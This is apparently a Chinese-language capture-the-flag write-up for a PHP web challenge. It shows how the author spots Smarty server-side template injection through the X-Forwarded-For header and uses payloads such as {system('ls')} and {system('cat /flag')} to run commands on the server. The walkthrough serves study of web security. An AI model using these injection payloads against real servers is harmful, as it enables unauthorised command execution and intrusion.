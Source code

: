 ![[Pasted image 20221113151242.png]]

首页长这样
![[Pasted image 20221113151312.png]]

首页有一串js
![[Pasted image 20221113151850.png]]
好家伙，炫酷的打字效果往往只需要最朴素的编写方式，学到了（然而好像和题目没啥关系）

```php
/flag.php
```
![[Pasted image 20221113165329.png]]

很奇怪，这好像是个内网ip，应该是过了代理
猜测可修改`X-Forwarded-For`来控制回显
![[Pasted image 20221113165737.png]]

先瞎打一波看看有没有报错
```http
X-Forwarded-For: '{\%*asfo
```

![[Pasted image 20221113170317.png]]
通过报错确定服务端使用`Smarty`作为模板引擎
![[Pasted image 20221113170349.png]]
`Smarty`语法好像是基于`php`，尝试使用`php`的`system`函数
```http
X-Forwarded-For: {system('ls')}
```
![[Pasted image 20221113170907.png]]
```http
X-Forwarded-For: {system('cat /flag')}
```
![[Pasted image 20221113171153.png]]
#Web #PHP #SSTI #smarty